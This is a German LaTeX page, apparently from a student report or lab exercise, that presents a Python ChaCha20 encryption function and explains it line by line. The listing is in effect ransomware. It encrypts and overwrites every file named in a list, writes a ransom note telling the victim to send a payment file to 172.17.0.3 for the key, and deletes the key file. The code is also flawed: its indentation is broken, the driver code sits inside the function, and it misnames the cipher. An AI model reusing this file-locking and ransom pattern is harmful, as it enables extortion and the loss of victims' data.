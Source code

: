 \documentclass[12pt]{article}
\begin{document}
Insgesamt ist ChaCha20 ein zuverlässiger und effizienter Stromchiffre-Algorithmus, der in verschiedenen Anwendungen eingesetzt wird, einschließlich der Verschlüsselung von Netzwerkdaten, der sicheren Kommunikation und der Datenspeicherung.
\newpage
\begin{figure}[]
\caption{Python-Funktion }
\begin{lstlisting}[language=python, style=code]
def encrypt_file_chacha20(key, input_file, output_file):
	# Generiere einen zufaelligen Nonce
	nonce = os.urandom(16)

	# Erstellen einer ChaCha20Poly1305-Verschluesselungsinstanz mit dem Schluessel und Nonce
	cipher = Cipher(algorithms.ChaCha20(key, nonce), mode=None, backend=default_backend()).encryptor()

	# Lesen des Inhalts der Eingabedatei
	with open(input_file, 'rb') as file:
	plaintext = file.read()

	# Verschluesseln der Daten
	ciphertext = cipher.update(plaintext) + cipher.finalize()

	# Schreiben von Nonce und verschluesselten Daten in die Ausgabedatei
	with open(output_file, 'wb') as file:
	file.write(nonce + ciphertext)

	with open("chkey.txt","rb") as keyfile:
		key =  keyfile.read()

	with open("testdaten.txt", "r") as file:
		for line in file:
			line = line.rstrip("\n")
			encrypt_file_chacha20(key, line, line)
	
	readme = open("README","w")
	readme.write("Your System has been encrypted, please send a file called 'payment' with 1 to 172.17.0.3 : pw: root in order to receive the decryption key")
	#loesche keyfile
	os.remove("/chkey.txt")
		\end{lstlisting}			
		\end{figure}
		Die Funktion 'encrypt\_file\_chacha20' führt die eigentliche Verschlüsselung durch(vgl. Figure 5).
Zuerst wird ein zufälliger Nonce (Number used once) generiert. Der Nonce ist eine zufällige Zahl, die einmalig für jede Verschlüsselung verwendet wird. Der Nonce wird in diesem Fall mit os.urandom(16) erzeugt(vgl.Zeile 3).
Eine Instanz der ChaCha20Poly1305-Verschlüsselung wird mit dem Schlüssel und dem Nonce erstellt. Der Schlüssel wird als Parameter an die algorithms.ChaCha20-Klasse übergeben. Die Instanz wird als cipher bezeichnet(vgl. Zeile 6).
Der Inhalt der Eingabedatei wird gelesen und in plaintext gespeichert. Die Eingabedatei wird mit open(input\_file, 'rb') geöffnet, um sie im binären Modus zu lesen(vgl. Zeile 8).
Die Daten werden mit dem ChaCha20-Verschlüsselungsalgorithmus verschlüsselt(vgl. Zeile 13). Der cipher.update(plaintext)-Aufruf verschlüsselt den gesamten Inhalt der Datei und cipher.finalize() beendet den Verschlüsselungsvorgang. Das Ergebnis der Verschlüsselung wird in ciphertext gespeichert(vgl. Zeile 17).
Der restliche Teil des Codes öffnet die Datei "chkey.txt" im binären Modus, um den Schlüssel zu lesen. Anschließend wird die Datei "testdaten.txt" im Textmodus geöffnet und jede Zeile wird in der Schleife verarbeitet. Für jede Zeile wird die Funktion encrypt\_file\_chacha20 aufgerufen, um die entsprechende Datei mit dem gelesenen Schlüssel zu verschlüsseln.
\end{document}
